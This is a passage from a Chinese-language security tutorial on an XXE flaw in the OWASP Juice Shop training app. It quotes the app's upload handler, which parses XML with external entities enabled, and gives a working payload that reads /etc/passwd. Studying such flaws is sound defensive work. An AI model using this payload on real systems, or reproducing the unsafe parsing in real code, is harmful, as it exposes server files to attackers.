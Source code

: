 ```javascript=
}
```
## A4：XML外部实体漏洞（XXE）

案例 远程读取服务器的文件

在Juiceshop中，用户可以通过上传xml文件，触发XXE。漏洞代码如下：

```javascript=
function handleXmlUpload ({ file }, res, next) {
  if (utils.endsWith(file.originalname.toLowerCase(), '.xml')) {
    if (file.buffer && !utils.disableOnContainerEnv()) { 
    // XXE attacks in Docker/Heroku containers regularly cause "segfault" crashes
      const data = file.buffer.toString()
      try {
        const sandbox = { libxml, data }
        vm.createContext(sandbox)
        
        // 没有对用户上传的文件（输入）进行验证
        const xmlDoc = vm.runInContext('libxml.parseXml(data, { noblanks: true, noent: true, nocdata: true })', sandbox, { timeout: 2000 })
        const xmlString = xmlDoc.toString(false)
        res.status(410)
        next(new Error('B2B customer complaints via file upload have been deprecated for security reasons: ' + utils.trunc(xmlString, 200) + ' (' + file.originalname + ')'))
      } catch (err) {
        if (utils.contains(err.message, 'Script execution timed out')) {
          if (utils.notSolved(challenges.xxeDosChallenge)) {
            utils.solve(challenges.xxeDosChallenge)
          }
          res.status(503)
          next(new Error('Sorry, we are temporarily not available! Please try again later.'))
        } else {
          res.status(410)
          next(new Error('B2B customer complaints via file upload have been deprecated for security reasons: ' + err.message + ' (' + file.originalname + ')'))
        }
      }
    } else {
      res.status(410)
      next(new Error('B2B customer complaints via file upload have been deprecated for security reasons (' + file.originalname + ')'))
    }
  }
  res.status(204).end()
}
```

使用一个简单的外部实体引用，就可以触发这个远程文件读取的漏洞。

```xml=
<?xml version="1.0" encoding="UTF-8"?>

<!DOCTYPE foo [<!ELEMENT foo ANY >
        <!ENTITY xxe SYSTEM "file:///etc/passwd" >]>

<test>
    <foo>&xxe;</foo>
</test>		
```
